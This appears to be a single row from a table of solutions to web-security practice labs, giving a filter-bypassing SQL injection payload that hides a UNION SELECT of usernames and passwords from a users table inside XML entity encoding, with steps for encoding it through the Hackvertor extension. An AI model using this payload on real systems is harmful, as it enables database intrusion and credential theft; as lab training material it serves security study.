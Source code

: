 |41    |SQL injection with filter bypass via XML encoding                                                                        |<storeId><@hex_entities>1 UNION SELECT username &#124;&#124; '~' &#124;&#124; password FROM users<@/hex_entities></storeId>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |Convert/obfuscate payload using XML entities.Highlight input and right-click > Extensions > Hackvertor > Encode > dec_entities/hex_entities.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Practitioner, SQLi                          |